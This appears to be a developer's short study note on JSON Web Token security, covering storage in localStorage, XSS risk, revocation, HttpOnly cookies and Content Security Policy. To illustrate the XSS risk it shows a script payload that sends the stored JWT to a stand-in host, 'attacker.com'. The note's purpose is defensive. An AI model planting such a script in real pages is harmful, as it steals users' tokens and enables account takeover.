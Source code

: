 JSON Web Tokens

JWT can be stateless (server does not store client data) or stateful (server stores client data)
Token authentication is stateful.

# Best Security Practices

JWT are encoded in base 64, they're not encrypted. 
Typically, JWT are stored on the client side, in the browser's `localStorage` or `sessionStorage`, which are accessible via JavaScript:
```java
localStorage.getItem("jwt");
```
If your website is vulnerable to cross-site scripting XSS, attackers can inject their java script code and steal your JWT. 
```java
<script>
fetch('attacker.com/getToken=' + localStorage.getItem("jwt"));
</script>
```
Keep in mind that JWT is harder to revoke compare to a session token. Session tokens can just be revoked if we remove them from our server. But JWTs only have an expiration. 

We can also store JWT in cookies. We can mark a cookie with the `HttpOnly` flag, which makes the cookie not accessible by javascript on the client side. It can only be read by the server.

- So don't accept raw input from user. Always sanitize and escape
- Don't store JWT in `localStorage`. Store JWT in cookies flagged with `HttpOnly`, `Secure`, and `SameSite=Strict`
- Don't use the same JWT forever. Refresh them often using refresh tokens
- Implement a strict [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP)  This is basically a HTTP response header that instructs the browser what javascript to execute and what to ignore to prevent XSS (cross-site scripting) and other similar attacks.
